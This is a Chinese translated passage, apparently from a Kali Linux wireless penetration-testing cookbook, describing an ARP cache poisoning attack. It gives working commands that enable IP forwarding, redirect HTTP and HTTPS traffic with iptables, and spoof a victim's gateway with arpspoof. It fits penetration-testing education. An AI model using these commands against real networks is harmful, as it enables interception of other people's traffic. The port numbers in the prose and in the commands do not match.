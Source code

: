 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-cb/img/cfbc3a94-7da1-4536-a3f5-e3c21ce2aa85.png)

ARP 缓存中毒攻击

就 IP 到 MAC 地址解析和组合而言，有两面。ARP 用于将 IP 地址解析为 MAC 地址。然而，还有一个伴随协议称为 RARP（反向地址解析协议），它用于将 MAC 地址解析为 IP 地址。虽然这两个协议存在于彼此的伴侣中，但我们实际上只需要 ARP，而不是反向 ARP。然而，重要的是要知道存在一个伴随协议。

# 准备工作

要开始操作，您需要准备好以下项目：

+   能够进入监视器模式的无线网卡

+   Kali Linux

这里列出的项目是基本要求，如果需要，您可以轻松地使用更多（或不同）组件。例如，如果您想要增强范围，可以使用一个带有外部天线连接的基于 USB 的无线网卡，以获得更好的接收效果。

第一步是启用 IP 转发；这样可以使流量通过攻击者的系统进行重定向。要执行此攻击，我们执行以下命令：

```
#echo "1″ > /proc/sys/net/ipv4/ip_forward 
```

查看 IP 转发的设置值；这将返回一个值`1`。如果没有，重复前面的步骤：

```
#cat /proc/sys/net/ipv4/ip_forward 
```

输出将是：`1`

```
#sysctl -p 
```

请注意，这里的`1`表示我们正在启用 IP 转发。如果我们想要关闭此功能，可以使用`0`来运行相同的命令。

下一步是在流经我们系统时重定向流量，这很容易通过使用`iptables`命令来实现。

在这个设置中，接收到端口`80`的流量将被重定向到不同的端口号。在这种情况下，端口`80`被重定向到端口`8080`，端口`443`被重定向到端口`8883`。有了这组简单的规则，流量将被相应地重定向。

要实施我们的设置，我们只需在命令行中输入以下内容：

```
#iptables -t nat -A PREROUTING -p tcp -destination-port 80 -j REDIRECT -to-port 8880 
#iptables -t nat -A PREROUTING -p tcp -destination-port 443 -j REDIRECT -to-port 8883 
```

iptables 是一个命令行实用程序，它在 Linux 中已经存在很长时间，用于配置 Linux 内核中的防火墙设置。该实用程序比这里介绍的要复杂得多，但我们只需要使用基础知识来进行设置。

现在来到重要的部分，即执行实际的 ARP 欺骗。为此，我们将使用`arpspoof`命令来更改受害系统的缓存以包含不同的值。在这种情况下，我们将把默认网关更改为其他内容。我们可以使用以下命令来实现：

```
arpspoof -i interface -t target-ip target-gateway-ip 
```

更具体地说，我们将更改受害机器以包含网关的不同地址：

```
arpspoof -i eth0 -t 192.168.1.23 192.168.0.253 
```
